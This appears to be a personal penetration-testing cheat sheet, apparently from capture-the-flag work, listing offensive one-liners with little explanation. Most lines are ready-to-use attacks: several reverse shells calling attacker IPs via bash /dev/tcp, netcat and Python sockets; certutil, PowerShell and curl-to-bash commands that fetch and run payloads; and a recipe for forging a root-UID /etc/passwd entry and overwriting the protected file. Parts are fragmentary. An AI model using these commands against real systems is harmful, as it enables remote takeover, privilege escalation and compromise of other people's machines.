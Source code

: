 python3 -c 'import pty; pty.spawn("/bin/bash") '

SHELL=/bin/bash script -q /dev/null
CTRL+Z
stty raw -echo && fg
export TERM=xterm

=========================================================================================
mysql -h localhost -u app -p  :mysql login
./socat TCP4-LISTEN:8080,fork TCP4:127.0.0.1:80 :port forwarding with socat binary

============================bash_backdoor======================================================

bash -c 'exec bash -i &>/dev/tcp/10.9.80.151/7000<&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -I 2>&1|nc 192.168.49.249 80 >/tmp/f

find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.42.127",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;
===============================recieving a file from CMD=============================================

cmd.exe /C certutil -urlcache -split -f http://10.9.80.151:90/winPEASany.exe winpeas.exe

================================================================================================

mkpasswd -m sha-512 newpasswordhere:- Generate a new password hash with a password of your choice:
------------------------------------------------------------------------------------------

zip -r file.zip file_wants_to_zip
=================================================================================================
sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php

------------------------------shell_with_curl----------------------------------------------
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.135:100/shel.sh|bash

powershell.exe (New-Object system.Net.WebClient).DownloadFile('http://10.15.35.5/payload.exe',' c:\Users\Public\whoami.exe')


 that includes a username, salted/hashed password, UID, GID, directory, and shell .
-----------------------------------------------------------------------------------------------------------------------------------
cadaver http://ip/webdav
-----------------------------------------------------openSSL-------------------------------------------------------------------------
#process to make SSL certificate throgh system

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 


openssl passwd -1 -salt salt password : generating password and salt to add into shadow
username:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash

openssl enc -in fake passwd -out /etc/passwd : overwrite protected passwd file with openssl
https://www.youtube.com/watch?v=i3ecAqGlGcc


 puttygen [ File.ppk ] -O private-openssh -o [ File name.pem ]
=======================================wpscan===================================================
